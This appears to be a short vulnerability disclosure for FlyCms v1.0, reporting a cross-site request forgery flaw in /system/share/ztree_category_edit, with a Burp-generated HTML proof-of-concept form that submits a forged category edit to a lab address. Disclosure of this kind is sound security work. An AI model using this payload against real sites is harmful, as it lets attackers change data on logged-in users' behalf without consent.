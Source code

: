 target:https://github.com/sunkaifei/FlyCms
version: v1.0

FlyCms v1.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /system/share/ztree_category_edit

![image-20240108165037892](./image/image-20240108165037892.png)

Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.247.192/system/share/ztree_category_edit?id=1&name=%E7%A7%BB%E5%8A%A8%E5%BC%80%E5%8F%911" method="POST">
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```



![image-20240108165220660](./image/image-20240108165220660.png)



Successed

![image-20240108165320556](./image/image-20240108165320556.png)